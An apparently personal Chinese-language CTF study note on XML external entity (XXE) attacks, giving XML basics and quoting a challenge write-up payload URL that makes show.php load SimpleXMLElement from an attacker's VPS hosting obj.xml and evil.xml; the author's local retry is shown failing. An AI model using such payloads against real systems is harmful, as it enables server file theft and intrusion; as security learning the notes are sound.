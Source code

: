 还是先补一波XXE漏洞吧，昨晚留下的坑，今天比较要填完

## XXE必备知识点

1. XML指可扩展标记语言；XML被设计用来传输和存储数据。
2. XML和HTML的不同：
    - XML被设计为传输和存储数据，其焦点是数据的内容。HTML被设计用来显示数据，其焦点是数据的外观。HTML旨在显示信息，而XML旨在传输信息。

题目中有上传文件的功能。我想说，上次出题就死在这，哎，可惜~

wp中给出了一个payload：
> http://target:8888/show.php?module=SimpleXMLElement&args[]=http://vps/XXE/obj.xml&args[]=2&args[]=true

其中target是题目的IP地址，而VPS是放了obj.xml,evil.xml,1.php的服务器。这里有个问题，我如何让这个ip得到我的xml呢？先安装apache再说。

> http://192.168.128.131/show.php?module=SimpleXMLElement&args[]=http://127.0.0.1/XXE/obj.xml&args[]=2&args[]=true

自己在本地试了下，貌似也不是那回事
![](image/6.png)
![](image/5.jpg)
我没想到，如果127联通不了192呢，这样文件也就穿不了。

然后自己对这个就很好奇了，那天研究研究。
